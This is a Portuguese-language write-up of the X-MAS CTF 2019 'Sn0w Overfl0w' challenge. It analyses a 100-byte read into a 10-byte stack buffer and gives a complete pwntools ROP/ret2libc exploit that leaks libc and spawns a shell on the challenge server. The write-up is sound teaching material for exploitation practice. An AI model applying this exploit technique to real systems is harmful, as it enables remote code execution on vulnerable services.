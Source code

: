 # Writeup "Sn0w Overfl0w" - XMAS-CTF 2019
#### Categories: pwn, Return Oriented Programming (ROP), Buffer Overflow (BOF), leaking libc

A challenge nos oferece apenas um binário que o nomearemos como "chall".

Executando o binário, obtemos um prompt para "Helloooooo, do you like to build snowmen?" como demonstrado a seguir:
fex0r:~/.ctf/xmas-ctf/sn0w-overfl0w# ./chall                                                
Helloooooo, do you like to build snowmen?

Visualizando as chamadas para libraries que o binário faz, podemos reparar que ele executa um strcmp do nosso input com o texto "yes":
```
fex0r:~/.ctf/xmas-ctf/sn0w-overfl0w# ltrace ./chall
setvbuf(0x7fbbf81f3a00, 0, 2, 0)                                                                             = 0
setvbuf(0x7fbbf81f4760, 0, 2, 0)                                                                             = 0
puts("Helloooooo, do you like to build"...Helloooooo, do you like to build snowmen?)                         = 42
read(yes, "yes\n", 100)                                                                                     = 4
strcmp("yes\n", "yes")                                                                                       = 10
puts("Mhmmm... Boring..."Mhmmm... Boring...)
```
Na verdade, teriamos que introduzir o "yes" de forma que o caractere newline ("\n") nao entrasse no input, de forma que o strcmp retornasse true, porém todo esse processo demonstrou-se desnecessário ao analisarmos o binário com GDB e descobrirmos um buffer overflow no binário.

## Binário Stripped
Como se trata de um binário stripped, teremos que achar a função main manualmente, podemos fazer isso da seguinte forma:
```
1. fex0r:~/.ctf/xmas-ctf/sn0w-overfl0w# gdb ./chall
2. gef➤  info file
   Symbols from "/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall".
   Local exec file:
           `/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall', file type elf64-x86-64.
           Entry point: 0x401070
           0x00000000004002a8 - 0x00000000004002c4 is .interp
           0x00000000004002c4 - 0x00000000004002e4 is .note.ABI-tag
           .................. ................. .................
3. gef➤  b *0x401070
   Breakpoint 1 at 0x401070
4. gef➤  r
	Starting program: /home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall                                                              	                                         
	
	Breakpoint 1, 0x0000000000401070 in ?? ()
5. gef➤  x/20i $rip
   => 0x401070:    endbr64
      0x401074:    xor    ebp,ebp
      0x401076:    mov    r9,rdx
      0x401079:    pop    rsi
      0x40107a:    mov    rdx,rsp
      0x40107d:    and    rsp,0xfffffffffffffff0
      0x401081:    push   rax
      0x401082:    push   rsp
      0x401083:    mov    r8,0x401280
      0x40108a:    mov    rcx,0x401210
      0x401091:    mov    rdi,0x401167
      0x401098:    call   QWORD PTR [rip+0x2f52]        # 0x403ff0
      0x40109e:    hlt
      0x40109f:    nop
      0x4010a0:    endbr64
      0x4010a4:    ret
      0x4010a5:    nop    WORD PTR cs:[rax+rax*1+0x0]
      0x4010af:    nop
      0x4010b0:    mov    eax,0x404040
      0x4010b5:    cmp    rax,0x404040
```
Ok, o endereço do começo de main() é 0x401167. Mas como exatamente descobrimos isso?
No passo 2 e 3, obtemos e setamos um breakpoint para o entry point do binário, oque nada mais é que o ponto de entrada do programa, ali encontram-se as primeiras instruções de um binário, pois bem o push do endereço de main para __libc_start_main.
__libc_start_main será setado posteriormente, enquanto isso, podemos apenas assumir, que a chamada feita em 0x401098 se trata de uma "call __libc_start_main" e receberia como argumento 0x401167, o qual é mov'ido para o primeiro general purpose register $rdi a fim de ser usado como argumento para a função __libc_start_main. Logo, 0x401167 é o endereço de início da nossa função main.

## Entendendo o Execution Flow do programa e Identificando Buffer Overflow
Com a função main em mãos, podemos analisar ela via ghidra.
A função main decompilada se comporta da seguinte maneira:
```
undefined8 FUN_00401167(void)

{
  int iVar1;
  char local_12 [10];
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Helloooooo, do you like to build snowmen?");
  read(0,local_12,100);
  iVar1 = strcmp(local_12,"yes");
  if (iVar1 == 0) {
    puts("Me too! Let\'s build one!");
  }
  else {
    puts("Mhmmm... Boring...");
  }
  return 0;
}
```
É explícita a existência de um buffer overflow ao ler 100bytes de dados para uma variavel que suporta apenas 10.
Possuindo um BOF no binário, podemos pular para a parte da exploração, porem antes disso, precisamos checkar as proteções que o binário possúi:
```
fex0r:~/.ctf/xmas-ctf/sn0w-overfl0w# checksec ./chall 
[*] '/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
"NX Enabled", No Execute esta ativado, isto é, a stack inteira se torna read-only, impossibilitando o clássico ataque de buffer-overflow consistindo na "alocação" e chamada do shellcode na stack.
A fim de burlarmos tal proteção, faremos um ataque do tipo Return Oriented Programming (ROP).

Nosso exploit final ficará da seguinte forma:
```
from pwn import *

p = remote("challs.xmas.htsp.ro", 12006)
elf = ELF("./chall")
libc = ELF("libc-2.27.so")
rop = ROP(elf)

pad = "A"*(18)
puts = elf.plt["puts"]
libc_start_main = elf.symbols["__libc_start_main"]
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
RET = (rop.find_gadget(['ret']))[0]

info("puts@plt => "+hex(puts))
info("__libc_start_main => "+hex(libc_start_main))
info("pop rdi => "+hex(pop_rdi))

rop = pad + p64(pop_rdi) + p64(libc_start_main) + p64(puts) + p64(0x401070)
p.sendlineafter("snowmen?", rop)
p.recvline()
p.recvline()
leaked__libc_start_main = u64(p.recvline().strip().ljust(8, "\x00"))
info("Leaked __libc_start_main@GLIBC => "+hex(leaked__libc_start_main))

libc.address = leaked__libc_start_main - libc.sym["__libc_start_main"]
libc_base = libc.address
info("libc base => "+hex(libc_base))

system = libc.sym["system"]
str_bin_sh = next(libc.search("/bin/sh"))

info("/bin/sh => %s " % hex(str_bin_sh))
info("system => %s " % hex(system))

xpl = pad + p64(RET) + p64(pop_rdi) + p64(str_bin_sh) + p64(system)
p.sendlineafter("snowmen?", xpl)

p.interactive()
```

## Pwning!!
```
fex0r:~/.ctf/xmas-ctf/sn0w-overfl0w# python xpl.py      
[+] Opening connection to challs.xmas.htsp.ro on port 12006: Done
[*] '/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loading gadgets for '/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall'
[*] puts@plt => 0x40102c
[*] __libc_start_main => 0x403ff0
[*] pop rdi => 0x401273
[*] Leaked __libc_start_main@GLIBC => 0x7fb0ba683ab0
[*] libc base => 0x7fb0ba662000
[*] /bin/sh => 0x7fb0ba815e9a 
[*] system => 0x7fb0ba6b1440 
[*] Switching to interactive mode

Mhmmm... Boring...
$ cat flag.txt
X-MAS{700_much_5n0000w}
```
